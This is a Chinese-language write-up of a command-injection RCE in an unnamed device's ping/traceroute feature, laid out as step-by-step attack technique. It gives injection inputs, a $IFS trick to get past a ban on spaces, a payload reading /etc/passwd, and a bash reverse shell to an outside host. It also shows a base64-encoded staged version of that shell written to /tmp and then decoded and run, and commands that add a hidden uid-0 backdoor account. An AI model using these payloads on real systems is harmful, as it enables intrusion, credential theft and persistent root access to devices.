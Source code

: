 ## 某设备RCE漏洞及其过程技巧

#### 漏洞产生位置
ping、tracout功能处  

#### 测试步骤
9200|pwd  ==> 返回 路径，判断命令执行成功  

9200|id|| ==> 返回uid，执行成功  

9200|command|| 因为后面还有些参数执行肯定会报错的，所有这里用了||  

注意：  
&  表示任务在后台执行  
&& 表示前一条命令执行成功时，才执行后一条命令   
|  表示管道，上一条命令的输出，作为下一条命令参数  
|| 表示上一条命令执行失败后，才执行下一条命令  

在测试的过程中，不能使用空格，导致不能执行带空格的命令  
但是测试过程中可以使用$IFS代替  

1.The IFS is a special shell variable.  
2.You can change the value of IFS as per your requirments.  
3.The Internal Field Separator (IFS) that is used for word splitting after expansion and to split lines into words with the read builtin command.  
4.The default value is `<space><tab><newline>`.    
[$IFS说明](https://bash.cyberciti.biz/guide/$IFS)  


Poc:    
`cat$IFS/etc/passwd`

反弹SHELL:    
`/bin/bash  -i > /dev/tcp/MyIP/9999 0<&1 2>&1`


但是这么长的命令直接去执行，一直不成功，怀疑特殊字符造成，尝试base64编码执行:  
`echo "L2Jpbi9iYXNoICAtaSA+IC9kZXYvdGNwLzE3Mi4xNi4xMy4xMi85OTk5IDA8JjEgMj4mMQo="|base64 -d|base`

本地Linux测试成功

编码的值就是上面反弹的SHELL命令  

```
[root@VM_202_59_centos ~]# echo "L2Jpbi9iYXNoICAtaSA+IC9kZXYvdGNwLzE3Mi4xNi4xMy4xMi85OTk5IDA8JjEgMj4mMQo="|base64 -d
/bin/bash  -i > /dev/tcp/172.16.13.12/9999 0<&1 2>&1
```

直接执行也不成功

思路转变：  
写base64编码后的命令到文件-->读取文件内容-->解码-->执行内容-->获取反弹SHELL  
`|echo$IFS"L2Jpbi9iYXNoICAtaSA%2BIC9kZXYvdGNwLzE3Mi4xNi4xMy4xMi85OTk5IDA8JjEgMj4mMQo%3D">>/tmp/x||`

因为此设备一个>写文件不成功，两个>>可以写成功文件，但是内容会多一个>，变成如下形式:  

```
[guestmetest@System ~]$ cat /tmp/x 
L2Jpbi9iYXNoICAtaSA+IC9kZXYvdGNwLzE3Mi4xNi4xMy4xMi85OTk5IDA8JjEgMj4mMQo=>
```

没有关系，直接调用:  
cat$IFS/tmp/x|base64$IFS-d|bash||


反弹成功！！！

留root账号：

```
useradd -u 0  -o  -g root  -G root -d /home/guestme guestme
# usermod -u 0  -o  -g root  -G root guestme
passwd guestme
```

